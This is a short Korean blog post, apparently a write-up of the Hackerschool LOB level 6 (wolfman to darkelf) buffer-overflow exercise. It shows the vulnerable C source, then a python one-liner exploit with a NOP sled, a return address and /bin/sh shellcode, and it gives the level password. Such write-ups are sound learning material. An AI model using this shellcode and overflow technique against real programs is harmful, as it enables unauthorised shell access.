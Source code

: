 ```yaml
---
date: '2022-10-16'
before : '2022-10-15'
after : '2022-10-17'
title: 'FTZ LOB LEVEL 6'
categories: ['C-SEC', 'KOR','PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제도 전 문제들과 크게 다르지 않았다.

### 1. Level 6 : Wolfman -> Darkelf

소스코드를 확인해보자.

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[]){
        char buffer[40];
        int i;
        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')

        {
                printf("stack is still your friend.\n");

                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){

                printf("argument is too long!\n");

                exit(0);
        }
        strcpy(buffer, argv[1]);

        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
입력의 길이가 48을 넘으면 안된다! 하지만 gdb로 까보니 어차피 버퍼의 생성이 -44에서 끝나고 더미 데이터가 없기 때문에 의미가 없다.


저번 문제와 동일하게 NOP SLED로 풀이한다.
```
`python -c 'print "\x90"*44+"\x40\xfc\xff\xbf"'` `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

비밀번호 : kernel crashed

 ---
## Source

- 해커스쿨 FTZ
- Me!
